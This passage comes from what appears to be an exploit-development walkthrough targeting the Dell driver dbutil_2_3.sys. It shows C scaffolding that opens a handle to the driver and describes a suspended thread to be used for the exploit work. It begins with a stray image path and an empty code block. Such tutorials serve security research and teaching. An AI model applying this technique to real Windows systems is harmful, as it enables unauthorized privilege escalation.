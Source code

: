 ```c
```

We can invoke this function in `main()`.

```c
/**
 * @brief Exploit entry point.
 * @param Void.
 * @return Success (0) or failure (1).
 */
int main(void)
{
	//
	// Invoke getHandle() to get a handle to dbutil_2_3.sys
	//
	HANDLE driverHandle = getHandle();

	//
	// Error handling
	//
	if (driverHandle == (HANDLE)-1)
	{
		//
		// Print update
		//
		printf("[-] Error! Couldn't get a handle to dbutil_2_3.sys. Error: 0x%lx", GetLastError());

		//
		// Bail out
		//
		goto exit;
	}

	//
	// Print update
	//
	printf("[+] Obtained a handle to dbutil_2_3.sys! HANDLE value: %p\n", driverHandle);

//
// Execution comes here if an error is encountered
//
exit:

	//
	// Return an error
	//
	return 1;
}
```

After obtaining the handle, we then can setup our "dummy thread" by creating a thread in a _suspended_ state. This is the thread we will perform our exploit work in. This can be achieved via `CreateThread` (again, the key here is to create this thread in a _suspended_ state. More on this later).
